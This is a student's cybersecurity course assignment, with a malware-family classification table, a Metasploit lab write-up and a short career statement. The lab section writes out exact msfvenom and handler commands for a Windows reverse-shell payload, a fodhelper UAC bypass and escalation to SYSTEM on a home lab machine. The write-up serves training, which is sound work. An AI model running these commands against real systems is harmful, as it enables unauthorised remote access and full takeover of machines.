






**ASSIGNMENT: 04**

**TRAINED BY: MR. WASEEM ABBAS KHAN**

**SUBMITTED BY: MEHAK ZAHRA**

**COHORT: PSEB-CYBER-ISB-02**

**DEADLINE: 08TH NOVEMBER, 2026**

**TASK: A (Malware Classification)**

A table covering all nine families, with a real example, the spread
method, and the control that would have stopped it.

<table>
<colgroup>
<col style="width: 16%" />
<col style="width: 19%" />
<col style="width: 22%" />
<col style="width: 20%" />
<col style="width: 20%" />
</colgroup>
<thead>
<tr>
<th style="text-align: left;">
<strong>Malware</strong>
</th>
<th style="text-align: left;">
<strong>Definition</strong>
</th>
<th style="text-align: left;">
<strong>Real world
Example</strong>
</th>
<th style="text-align: left;">
<strong>Spread Method</strong>
</th>
<th style="text-align: left;">
<strong>Preventive
Control</strong>
</th>
</tr>
</thead>
<tbody>
<tr>
<td style="text-align: left;">
<strong>Virus
(Mellisa)</strong>
</td>
<td style="text-align: left;">
Melissa is a macro virus that spreads
through Microsoft Word documents and Microsoft Outlook email. [1]
[2]
</td>
<td style="text-align: left;">
Email servers at more than 300
corporations and government agencies worldwide became overloaded, and
some had to be shut down entirely, including at Microsoft. Approximately
one million email accounts were disrupted, causing an estimated $80
million in cleanup and repair costs. [1]
</td>
<td style="text-align: left;">
It used a macro to hijack Microsoft
Outlook and send infected documents to the first 50 addresses in users'
mailing lists. [1]
</td>
<td style="text-align: left;">
Run a full-system scan with an
up-to-date antivirus product to detect and remove the threat. Manual
removal is not recommended. [2]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Worm
(Conficker)</strong>
</td>
<td style="text-align: left;">
Conficker worms infect PCs across a
network by exploiting a vulnerability in a Windows system file.
[3]
</td>
<td style="text-align: left;">
A Conficker infection at a nuclear
power plant forced the facility to temporarily shut down. Staff scanned
computer systems and performed security checks before putting the plant
back into production. [4]
</td>
<td style="text-align: left;">
This worm spreads by infecting
computers on your network, removable drives (such as USB flash drives),
and weak passwords. [3]
</td>
<td style="text-align: left;">
Apply the update referred to in
Security Bulletin MS08-067 immediately. Create strong passwords for your
network and apply the update that changes the AutoPlay functionality in
Windows. Run a full-system scan with an up-to-date antivirus product.
[3]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Trojan (Zeus)</strong>
</td>
<td style="text-align: left;">
Zeus (also known as Zbot) is a trojan
that creates a botnet and steals confidential information such as online
banking credentials. [5]
</td>
<td style="text-align: left;">
In June 2014, the FBI announced an
international operation to disrupt the GameOver Zeus botnet. It had
infected between 500,000 and 1 million computers worldwide and caused
more than $100 million in financial losses. The stolen banking
credentials were used to transfer money from victims' accounts to
criminals' overseas accounts. [6]
</td>
<td style="text-align: left;">
Attackers primarily spread Zeus via
spam email messages and drive-by downloads. [5]
</td>
<td style="text-align: left;">
All operating systems, antivirus and
other security products should be kept up-to-date. Regular antivirus and
security scans should be performed. User accounts accessed from affected
devices should be reset on a clean computer. [5]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Ransomware
(LockBit)</strong>
</td>
<td style="text-align: left;">
LockBit ransomware operation functions
as a Ransomware-as-a-Service (RaaS) model. [7]
</td>
<td style="text-align: left;">
In 2022, LockBit was the most active
global ransomware group and RaaS provider in terms of the number of
victims claimed on their data leak site. It attacked organizations in
healthcare, education, government, financial services, manufacturing and
other sectors. [7]
</td>
<td style="text-align: left;">
Affiliates deploying LockBit 3.0
ransomware gain initial access to victim networks via remote desktop
protocol (RDP) exploitation, phishing campaigns, abuse of valid
accounts, and exploitation of public-facing applications. [8]
</td>
<td style="text-align: left;">
Prioritize remediating known exploited
vulnerabilities. Train users to recognize and report phishing attempts.
Enable and enforce phishing-resistant multifactor authentication.
[8]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Spyware</strong>

<strong>(FinFisher)</strong>
</td>
<td style="text-align: left;">
FinFisher is a government-grade
commercial surveillance spyware reportedly sold exclusively to
government agencies for use in targeted and lawful criminal
investigations. [9]
</td>
<td style="text-align: left;">
Between 2010 and 2012, Bahrain’s
government used FinFisher to monitor some of the country’s top law
firms, journalists, activists, and opposition political leaders.
[10]
</td>
<td style="text-align: left;">
FinFisher’s initial infection can be
done in various of ways such as spear phishing, manual installation by
having physical access to the device or even by visiting compromised
websites. [11]
</td>
<td style="text-align: left;">
All operating systems, antivirus and
other security products should be kept up to date. Users should avoid
opening attachments or following links in unsolicited emails. User
accounts accessed from infected machines should be reset on a clean
computer. [11]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Adware
(Fireball)</strong>
</td>
<td style="text-align: left;">
Fireball is a malware that takes over
target browsers and turns them into zombies. [12]
</td>
<td style="text-align: left;">
In June 2017, Check Point researchers
discovered that Fireball had infected over 250 million computers
worldwide, including 20% of corporate networks. India alone had
approximately 25.3 million infected computers, while Brazil had 24.1
million. [12]
</td>
<td style="text-align: left;">
Fireball is spread mostly via bundling
i.e. installed on victim machines alongside a wanted program, often
without the user’s consent. [12]
</td>
<td style="text-align: left;">
To remove Fireball, uninstall the
suspicious application from Programs and Features in Windows Control
Panel. Scan and clean the computer using anti-malware software or an
adware cleaner, and remove malicious browser extensions and plug-ins.
[12]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Rootkit
(Necurs)</strong>
</td>
<td style="text-align: left;">
Necurs is a rootkit used to install
other malware. [13]
</td>
<td style="text-align: left;">
In March 2020, Microsoft and its
partners disrupted the Necurs botnet, which had infected more than nine
million computers globally. The operation involved coordinated legal and
technical action across 35 countries. [14]
</td>
<td style="text-align: left;">
Necurs is an email spam botnet
responsible for delivering numerous other popular malwares. It spreads
through spam campaigns containing malicious attachments and links. [13]
[15]
</td>
<td style="text-align: left;">
Microsoft Defender Antivirus detects
and removes Necurs. Run a full-system scan with updated antivirus
software to find and remove any remaining malware. [15]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Botnet Agent Mirai
(IoT),</strong>
</td>
<td style="text-align: left;">
Mirai is a piece of malware that
infects IoT devices and is used as a launch platform for DDoS attacks.
[16]
</td>
<td style="text-align: left;">
On October 21, 2016, the Mirai botnet
launched a massive DDoS attack against Dyn, a major DNS provider. The
attack disrupted access to popular websites and services, including
Twitter, Netflix, Reddit, CNN and PayPal, affecting millions of users.
[17]
</td>
<td style="text-align: left;">
Mirai malware primarily targets IoT
devices such as routers, digital video recorders and webcams by
exploiting their use of default usernames and passwords. [16]
</td>
<td style="text-align: left;">
Change default usernames and passwords
on all IoT devices. Apply software and firmware updates as soon as they
are released. Disable remote management of routers over the Internet and
disconnect infected devices from the network before rebooting them.
[16]
</td>
</tr>
<tr>
<td style="text-align: left;">
<strong>Fileless Malware
(Poweliks)</strong>
</td>
<td style="text-align: left;">
Poweliks is a fileless malware that
runs without a filesystem object, completely from the registry and
memory. [18]
</td>
<td style="text-align: left;">
In August 2014, Poweliks was discovered
using fileless techniques to hide its malicious code in the Windows
Registry. It could infect computers without creating a traditional
malware file on the hard drive. [18] [19]
</td>
<td style="text-align: left;">
Poweliks exploited vulnerabilities in
Microsoft Office documents to infect computers. It used malicious code
embedded in the Windows Registry and executed through legitimate Windows
processes. [18] [20]
</td>
<td style="text-align: left;">
Use updated antivirus software to
detect and remove Poweliks. Malwarebytes developed a specialized removal
tool to clean Poweliks infections. [18]
</td>
</tr>
</tbody>
</table>

**TASK: B (Payload Lab Write-up)**

Generate a payload, receive it with a handler, document each step with
the exact command and output, and explain why UAC blocked the first
getsystem.

1.  **Payload Generation**

First, a Windows executable payload is created using msfvenom on Kali
Linux with reverse TCP settings.

- **Command:**

\> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.4
LPORT=4433 -f exe -o win.exe

**Output / Explanation:**

- Payload size: 355 bytes

- Final size of exe file: 7168 bytes

- Successfully generated and saved as win.exe in the local directory.

2.  **Setting up the Metasploit Multi-Handler**

Metasploit's multi-handler is configured to receive the connection when
the payload runs on the target machine.

- **Commands:**

\> use multi/handler

\> set PAYLOAD windows/meterpreter/reverse_tcp

\> set LHOST 192.168.100.4

\> set LPORT 4433

\> run

**Output / Explanation:**

- Started reverse TCP handler on 192.168.100.4:4433.

- Upon executing the payload on the Windows target (192.168.100.5), the
  initial payload is sent and Meterpreter session 1 is successfully
  opened (192.168.100.4:4433 -\> 192.168.100.5:50081).

3.  **Initial Privilege Check & The getsystem Failure**

After getting the first session, the current user is checked. It shows
standard user privileges, and the direct attempt to increase privileges
fails.

- **Commands**

meterpreter \> getuid

Server username: WINDOWS10\vboxuser

meterpreter \> getsystem

\[-\] priv_elevate_getsystem: Operation failed: All pipe instances are
busy. The following was attempted:

\[-\] Named Pipe Impersonation (In Memory/Admin)

\[-\] Named Pipe Impersonation (Dropper/Admin)

\[-\] Token Duplication (In Memory/Admin)

\[-\] Named Pipe Impersonation (RPCSS variant)

\[-\] Named Pipe Impersonation (PrintSpooler variant)

\[-\] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)

**Why did the first getsystem fail? (UAC & Privilege Context
Explanation):**

The initial Meterpreter session was running as vboxuser, who is a member
of the local Administrators group. However, Windows 10 has User Account
Control (UAC) enabled by default, which limits the privileges of
administrator accounts during normal use.

When getsystem tried methods like Named Pipe Impersonation and token
duplication, it needed higher privileges to get NT AUTHORITY\SYSTEM
access. Since the initial session did not have full administrator
privileges, these methods failed and showed errors like *"All pipe
instances are busy"* or *access denied*.

4.  **Bypassing UAC and Escalating to SYSTEM**

To get around the UAC restriction, the fodhelper UAC bypass module is
used to open a high-integrity session.

- **Commands:**

\> background

\> use exploit/windows/local/bypassuac_fodhelper

\> set SESSION 1

\> set LHOST 192.168.100.4

\> set LPORT 4433

\> exploit

**Output / Explanation:**

- The module identifies that UAC is enabled and can be bypassed.

- It exploits the fodhelper.exe registry auto-elevation feature to
  launch a high-integrity process.

- Meterpreter session 2 is opened successfully.

**5. Final Privilege Verification**

After connecting to the new high-integrity session, getsystem works
successfully and provides NT AUTHORITY\SYSTEM access.

- **Commands**

meterpreter \> getuid

Server username: WINDOWS10\vboxuser

meterpreter \> getsystem

...got system via technique 1 (Named Pipe Impersonation (In
Memory/Admin)).

meterpreter \> getuid

Server username: NT AUTHORITY\SYSTEM

**Explanation:**

After bypassing UAC and getting higher privileges, getsystem
successfully uses Named Pipe Impersonation to change the session from a
normal user to NT AUTHORITY\SYSTEM.

------------------------------------------------------------------------

**TASK: C (Career Statement)**

Half a page: which specialism you are aiming for, the entry credential,
and three concrete things you will have on your portfolio in three
months.

**Career Statement**

**Career Goal**

I want to build my career in Penetration Testing and Vulnerability
Assessment. My goal is to work in cybersecurity, where I can find
security weaknesses in systems, test their security, and help
organizations protect their data and networks.

**Education and Skills**

I have a background in Software Engineering and basic knowledge of
cybersecurity, networking, Linux, and system administration. I have also
completed introductory cybersecurity training and I am working on
improving my practical skills through hands-on learning and further
studies.

**Three-Month Portfolio Goals**

Over the next three months, I plan to complete the following practical
projects:

1.  **Vulnerability Assessment Lab:** Set up a lab, scan systems for
    security weaknesses, identify risks, and prepare reports with
    suggestions to fix them.

2.  **Exploitation and Privilege Escalation:** Practice common security
    testing techniques, learn how to use Metasploit, manage sessions,
    and understand Windows security features such as UAC.

3.  **Log Monitoring and Threat Detection:** Set up a SIEM tool, monitor
    system logs, study security events, and create alerts to detect
    suspicious activities.

------------------------------------------------------------------------

# References

| \[1\] | "FBI," \[Online\]. Available: https://www.fbi.gov/history/cases-and-criminals/melissa-virus. |
|----|----|
| \[2\] | "Microsoft," \[Online\]. Available: https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Virus:W97M%2FMelissa.A. |
| \[3\] | "Microsoft," \[Online\]. Available: https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Win32%2FConficker. |
| \[4\] | "MITRE," \[Online\]. Available: https://attack.mitre.org/software/S0608/. |
| \[5\] | "NHK," \[Online\]. Available: https://digital.nhs.uk/cyber-alerts/2017/cc-1138. |
| \[6\] | "FBI," \[Online\]. Available: https://www.fbi.gov/news/press-releases/press-releases/u.s.-leads-multi-national-action-against-gameover-zeus-botnet-and-cryptolocker-ransomware-charges-botnet-administrator. |
| \[7\] | "CISA," \[Online\]. Available: https://www.cisa.gov/sites/default/files/2023-06/aa23-165a_understanding_TA_LockBit.pdf. |
| \[8\] | "CISA," \[Online\]. Available: https://www.cisa.gov/sites/default/files/2023-03/aa23-075a-stop-ransomware-lockbit.pdf. |
| \[9\] | "MITRE," \[Online\]. Available: https://attack.mitre.org/software/S0182/. |
| \[10\] | \[Online\]. Available: https://citizenlab.ca/research/mapping-finfishers-continuing-proliferation/. |
| \[11\] | "NHS," \[Online\]. Available: https://digital.nhs.uk/cyber-alerts/2018/cc-2142. |
| \[12\] | \[Online\]. Available: https://research.checkpoint.com/2017/fireball-chinese-malware-250-million-infection/?utm_source=chatgpt.com. |
| \[13\] | "NHS," \[Online\]. Available: https://digital.nhs.uk/cyber-alerts/2018/cc-1894. |
| \[14\] | "Microsoft," \[Online\]. Available: https://blogs.microsoft.com/on-the-issues/2020/03/10/necurs-botnet-cyber-crime-disrupt/. |
| \[15\] | "Microsoft," \[Online\]. Available: https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Win32%2FNecurs. |
| \[16\] | "IC3," \[Online\]. Available: https://www.ic3.gov/PSA/2017/PSA171017. |
| \[17\] | \[Online\]. Available: https://www.justice.gov/usao-ak/pr/justice-department-announces-charges-and-guilty-pleas-three-computer-crime-cases. |
| \[18\] | "MalwareBytes," \[Online\]. Available: https://www.malwarebytes.com/blog/news/2014/11/no-more-poweliks. |
| \[19\] | "Microsoft Ignite," \[Online\]. Available: https://learn.microsoft.com/en-us/defender-endpoint/malware/fileless-threats. |
| \[20\] | "CrowdStrike," \[Online\]. Available: https://www.crowdstrike.com/en-us/cybersecurity-101/malware/fileless-malware/. |

------------------------------------------------------------------------
